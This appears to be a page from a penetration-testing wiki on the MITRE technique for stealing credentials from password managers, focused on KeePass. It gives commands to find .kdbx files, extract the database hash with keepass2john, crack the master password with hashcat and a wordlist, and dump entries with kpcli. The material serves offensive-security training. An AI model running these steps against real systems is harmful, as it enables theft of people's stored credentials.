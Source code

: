 ```yaml
---
description: >-
  MITRE ATT&CK™ Credentials from Password Stores: Password Managers - Technique
  T1555.005
---
```


# Password managers

## Theory

Password managers generate and securely store passwords of various services, safeguarding them under a single master password. This master password serves as the key to access all the stored passwords within the password manager.&#x20;

Examples of Password Manager applications:

* [Built-in password managers (Windows)](windows-credential-manager.md)
* Third-party: KeePass, 1Password, LastPass

However, misconfiguration and security flaws are found in these applications that let us access stored data. Various tools could be used during the enumeration stage to get sensitive data in password manager applications used by Internet browsers and desktop applications.

## Practice

### KeePass

{% tabs %}
{% tab title="Cracking Master Password" %}
#### Cracking Master Password

If we gained access to the keepass database, we may be able to extract it and crack the master database password.&#x20;

Keepass database is stored as a `.kdbx` file, we can search for such files using following commands:

```powershell
#PowerShell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

#Cmd
dir /s /b C:\*.kdbx
```

One we exfiltrate the database to our attacking computer, we can start by using [keepass2john](https://gist.github.com/scottlinux/f6cb8b1bb7807e89c09c139064f69881) and save the output hase a crackable hash.

```bash
keepass2john keepass.kdbx > keepass.hash
```

Then, we may crack the master password using hashcat. See [this page](../../passwd/brute-force/offline-password-cracking.md) for more details about cracking passwords.

```bash
hashcat -a 0 -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt --user
```

Now, we can open the database using [kpcli](https://github.com/rebkwok/kpcli) and dump passwords

<pre class="language-bash"><code class="lang-bash">$ kpcli --kdb=db.kdbx
Provide the master password: *************************
<strong>kpcli:/> dir
</strong>=== Groups ===
Database/

<strong>kpcli:/> cd Database
</strong><strong>kpcli:/Database> dir
</strong>=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. Sample Entry                                               keepass.info
1. Sample Entry #2                          keepass.info/help/kb/testform.
2. User Company Password

<strong>kpcli:/Database> show -f 0
</strong>Title: Sample Entry
Uname: User Name
 Pass: Password
  URL: https://keepass.info/
Notes: Notes
</code></pre>
{% endtab %}

{% tab title="KeePass Triggers" %}
TO DO
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1555/005/" %}
